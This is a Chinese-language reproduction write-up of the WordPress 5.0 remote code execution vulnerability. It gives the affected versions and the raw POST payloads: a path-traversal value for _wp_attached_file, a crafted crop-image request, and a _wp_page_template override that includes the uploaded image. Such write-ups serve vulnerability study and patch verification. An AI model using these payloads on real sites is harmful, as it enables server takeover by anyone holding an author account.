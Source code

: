 （CVE-2019-6977）WordPress 5.0 RCE
==================================

一、漏洞简介
------------

漏洞条件：拥有一个author权限的账号

二、漏洞影响
------------

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release
5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress
5.1-alpha-44280更新后未更新的4.9.9\~5.0.0的WordPress都受到该漏洞影响。

三、复现过程
------------

传图片

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId24.png)

改信息

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId25.png)

保留该数据包，并添加POST

    &meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg

触发需要的裁剪

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId26.png)

裁剪

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId27.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

    action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100

触发需要的裁剪

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId28.png)

图片已经过去了

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId29.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

    &meta_input[_wp_page_template]=cropped-32.jpg

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId30.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![](./.resource/(CVE-2019-6977)WordPress5.0rce/media/rId31.png)

四、参考链接
------------

> <https://www.freebuf.com/vuls/196514.html>
